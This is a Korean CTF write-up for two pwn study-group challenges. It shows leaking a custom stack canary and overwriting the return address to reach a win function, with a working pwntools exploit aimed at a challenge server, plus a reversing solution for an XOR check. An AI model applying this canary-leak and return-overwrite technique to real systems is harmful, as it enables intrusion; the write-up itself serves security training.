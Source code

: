 ```yaml
---
title: "[Pwn] Pwn Study Weak 2"
date: 2021-11-29T09:24:22+09:00
categories:
- Pwn
- Whois
tags:
- Pwn
keywords:
- tech
#thumbnailImage: //example.com/image.jpg
---
```


<!--more-->

이번에도 Whois 신입 회원 교육 과제를 포스팅하려고 한다. (1번 문제는 면제받았다!)  


# passcode

![problem](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/weak_2/passcode/problem.PNG?raw=true)

까나리 문제구나.. 냄새난다.. 일단 실행부터 해보자.  

![ex](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/weak_2/passcode/ex.PNG?raw=true)

두 번의 입력, 중간의 한 번의 출력. 이는 명백한 canary 출력을 이용한 문제다.  
그 전에 main부터 확인해보자.

![pd main](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/weak_2/passcode/pd%20main.PNG?raw=true)

흠.. 전체적으로 보면 잘 모르겠지만, 중요해보이는 부분이 몇 개 있다. 첫 번째가 아래다.  

![fque](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/weak_2/passcode/fque.PNG?raw=true)

generate_passcode 함수를 실행한 후, rbp-0x8에 0x4040b0의 데이터를 복사한다.  
처음에는 무엇인지 이해하기 어렵지만 main의 아래를 보면 이해할 수 있다.  

![cmp](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/weak_2/passcode/cmp.PNG?raw=true)

canary다. 자체적으로 걸린 보호기법이 아닌 사람이 직접 만든 canary라는 것이다.. (존-경)  
그러면 canary의 생성루틴을 확인해보자.  

![pd generate](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/weak_2/passcode/pd%20generate.PNG?raw=true)

흠.. 0x402008를 open을 통해서 열고, read 함수로 읽은 값을 다양한 연산을 하고  
rbp-0x8 위치에 하나씩 삽입한다. 그렇다면 0x402008이 뭘까?  

![ran](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/weak_2/passcode/ran.PNG?raw=true)

urandom, 즉 랜덤함수다. 처음의 필자는 이 부분에서 urandom 취약점인 줄 알고 시간을 엄청 소비했다.  
하지만 반환 랜덤값에 추가적인 연산이 더해지면서 이러한 취약점은 방어되었다.  
그렇다면 canary를 출력해보자. main을 보면 rbp-0x20에서부터 입력을 받는데,  
canary는 rbp-0x8에 위치해있다. 이는 문자열을 0x18번 입력한 후, Enter가 아닌 eof로 종료하여  
Canary까지 출력함으로서 문제를 해결할 수 있다.  

![canary](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/weak_2/passcode/canary.PNG?raw=true)

이렇게 canary를 알아낼 수 있다. 이를 이용해서 ret를 변조할 수 있는데, 해당 파일은 NX가 걸려있다.  
즉, Stack에서 실행권한이 없다. 그렇다면 다른 함수는 없을까? 찾아보자.  

![win](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/weak_2/passcode/win.PNG?raw=true)

info func을 통해서 찾은 결과 win 함수를 찾을 수 있었다. 내부 소스를 보자.  

![pd win](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/weak_2/passcode/pd%20win.PNG?raw=true)

system 함수로 cat flag를 실행한다. 즉, 이 함수 시작 주소를 ret에 넣어줘서 문제를 풀면 된다.  
지금까지의 모든 정보를 종합하여 payload를 작성하면 아래와 같다.  

```Python3
from pwn import *
context.log_level='debug'

#r = process('./passcode', stdin=PTY, raw=False)
r = remote('49.50.167.74', 5202)

r.recvuntil(':D')
r.send("AAAAAAAAAAAAAAAAAAAAAAAA")

tmp = r.recvline()
tmp = r.recvline()
tmp1 = tmp[-12:-4]

tmp2 = list(tmp1)
tmp3 = [0, 0, 0, 0, 0, 0, 0, 0]

for i in range(0,8):
	tmp3[i] = int(tmp2[i])
	
r.recvuntil('passcode?')

ret = 0x00000000004012d0
A = 0x4141414141414141

pay = p64(A) + p64(A) + p64(A) + bytes([tmp3[0]])+bytes([tmp3[1]])+bytes([tmp3[2]])+bytes([tmp3[3]])+bytes([tmp3[4]])+bytes([tmp3[5]])+bytes([tmp3[6]])+bytes([tmp3[7]])+ p64(A) + p64(ret)

r.send(pay)
r.interactive()
```

![flag](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/weak_2/passcode/flag.PNG?raw=true)

#assemlator

두 번째 문제다.  

![problem](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/weak_2/assemlator/problem.PNG?raw=true)

흐어.. 어셈..싫어..  

![play](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/weak_2/assemlator/play.PNG?raw=true)

내가 뭐를 했다고 틀렸다고 하십니까...  
gdb를 통해서 열어보자.  

![pd main](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/weak_2/assemlator/pd%20main.PNG?raw=true)

흠.. 전체적으로 무난한데, 한 가지 특이한 부분이 있다.  

![important](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/weak_2/assemlator/important.PNG?raw=true)

scanf하여 입력받은 문자열을 assembly_calc에 인자로 넘겨주어 실행한다.  
그 이후는 canary니까 무관하다. 그렇다면 assembly_calc를 열어보자!  

![pd assembly_calc](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/weak_2/assemlator/pd%20assembly_calc.PNG?raw=true)

전체적으로 보면 파일을 열고 이를 읽어서 몇 가지 추가적인 연산을 한 후에,  
최종적으로 0x123456789와 같은지 검사한다.  

![cmp](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/weak_2/assemlator/cmp.PNG?raw=true)

코드를 보다보면 결국 하는 것이라고는 xor과 sub 0xdcba이다.  
그렇다면 거꾸로 생각해보자. 0x123456789에 0xdcba를 더하면 그 전의 값이 나올 것이다.  
이는 0x123464443이다. xor만 역연산하면 된다. 이는 특정한 값이 0xabcd와 xor하여 나온 값이  
0x123464443이라는 것이다. 하위 2byte만 보면 된다. 0xabcd가 2byte이기 때문이다.  
0xabcd의 2진수는 다음과 같다. 1010 1011 1100 1101, 여기서 최종적으로 0100 0100 0100 0011이  
나와야 한다. xor은 둘이 다를 경우가 1이 된다. 즉, 생각해보면 정답을 도출해낼 수 있다.  
우리가 입력해야 하는 값은 1110 1111 1000 1110 이다. 이를 16진수로 변환하면 0xEF8E다.  
모든 정보를 종합하여 최종적으로 0x12346EF8E가 되며, Scanf를 %lld로 받기 때문에 정답의 10진수인  
4886818702를 입력해야 한다.  

![flag](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/weak_2/assemlator/flag.PNG?raw=true)

